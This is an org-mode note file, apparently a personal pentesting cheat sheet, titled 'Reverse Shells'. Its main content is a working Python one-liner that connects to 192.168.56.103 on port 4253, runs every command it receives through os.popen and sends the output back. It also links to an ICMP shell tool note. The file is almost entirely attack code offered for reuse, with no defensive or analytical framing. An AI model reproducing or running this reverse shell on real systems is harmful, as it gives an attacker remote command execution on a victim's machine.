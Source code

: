 #+TAGS: sec shell


* Reverse Shells                                                  :sec:shell:
* Python
- too place inline python -c "<code_block>"
#+BEGIN_SRC py
python -c "import socket
import sys
import os
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('192.168.56.103', 4253))
while True:
    cmd = sock.recv(1024)
    out = os.popen(cmd).read()
    sock.send(out)"
#+END_SRC
* ICMP Shell
- [[file://home/crito/org/tech/security/security_tools/icmpsh.org][icmpsh]]

* Links
